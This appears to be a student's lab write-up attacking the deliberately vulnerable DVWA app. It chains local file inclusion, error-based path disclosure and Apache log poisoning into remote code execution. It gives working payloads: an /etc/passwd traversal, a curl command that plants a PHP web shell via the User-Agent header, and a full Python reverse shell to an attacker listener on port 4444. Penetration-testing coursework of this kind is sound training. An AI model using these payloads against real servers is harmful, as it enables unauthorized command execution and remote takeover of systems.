




# Task 1A: File Inclusion to RCE Chain

**Student:** Aazib Ali
**Target:** http://192.168.88.134/dvwa/vulnerabilities/fi/
**Security level:** Low

---

## Step 1: Confirm LFI

Payload:

?page=../../../../../../etc/passwd

Result: `/etc/passwd` contents displayed on the page, confirming the
`page` parameter is passed directly into PHP's `include()` without
validation.


---

## Step 2: Error message reveals server path

Payload:

?page=../../../../../../etc/fakefile

Result:

Warning: include(../../../../../../etc/fakefile): failed to open
stream: No such file or directory in
/var/www/dvwa/vulnerabilities/fi/index.php on line 35

The error discloses the full server path: `/var/www/dvwa/`
This path is needed to target the Apache log file for log poisoning.


---

## Step 3: Log poisoning — inject PHP into access log

```bash
curl -s -A '<?php system($_GET[0]);?>' http://192.168.88.134/
```
This writes a PHP web shell into Apache's access log via the
User-Agent header. Log file: `/var/log/apache2/access.log`

Payload to trigger execution:

?page=../../../../../../var/log/apache2/access.log&0=id

Result: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`


---

## Step 4: Reverse shell

Listener on Kali:
```bash
nc -lvnp 4444
```

Payload (Python reverse shell via log poisoning):

?page=../../../../../../var/log/apache2/access.log&0=python -c
‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((“192.168.88.133”,4444));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(“sh”)’

Result: Interactive shell received on port 4444.


---

## Why nc -e does not work

Kali's netcat is the OpenBSD variant, compiled without the `-e` flag
for security reasons — the flag let an attacker execute a program
directly on connection, so it was removed. A Python reverse shell
works instead because it uses the OS's own socket and subprocess
libraries rather than relying on netcat's execution feature.
